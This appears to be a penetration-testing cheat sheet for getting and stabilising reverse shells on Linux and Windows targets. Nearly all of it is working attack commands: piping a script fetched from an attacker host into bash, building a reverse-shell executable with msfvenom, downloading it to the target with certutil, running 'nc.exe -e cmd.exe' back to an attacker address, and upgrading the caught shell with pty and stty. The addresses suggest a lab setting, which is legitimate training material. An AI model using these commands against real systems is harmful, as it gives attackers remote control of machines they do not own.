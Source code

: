 ## Linux
run server and expose rev.sh as file:
```
python3 -m http.server 80
```

on local machine call:
```
nc -lnvp 1337
```

on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

- upgrade shell to bash:
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- then to make if fully interactive:
- We press `CTRL^Z` to suspend the shell momentaneously and execute the command below
```bash
stty raw -echo; fg
```
We won't see any output, but we can type reset and specify xterm as the terminal type
```bash
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
Command above will return us to the remote machine's shell. Now we need to make sure that the following variables are set as following:
```bash
export TERM=xterm
export SHELL=bash
```
change size:
```bash
# on your system
stty size
# on the reverse shell
stty rows x columns y
```
see also: https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3

## Windows

### with reverse shell

get reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=443 -f exe -o reverse.exe
```

start python server
```
python3 -m http.server 80
```

download reverse shell on target machine
```bash
certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:80/reverse.exe C:\Windows\Temp\reverse.exe
```

listen on attacker machine
```bash
nc -lnvp 443
```

execute reverse shell
```bash
C:\Windows\Temp\reverse.exe
```


### with nc

get nc.exe:
```bash
sudo apt install windows-binaries
```

run server and expose rev.sh as file:
```bash
python3 -m http.server 80
```

on local machine call:
```bash
nc -lnvp 1337
```

on remote machine in a directory where allowed to write:
```bash
wget http://10.10.14.9/nc.exe -outfile nc64.exe
.\nc.exe -e cmd.exe 10.10.14.9 1337
```

# Known issues

- on windows many ports are blocked by the firewall but ports like 443 should work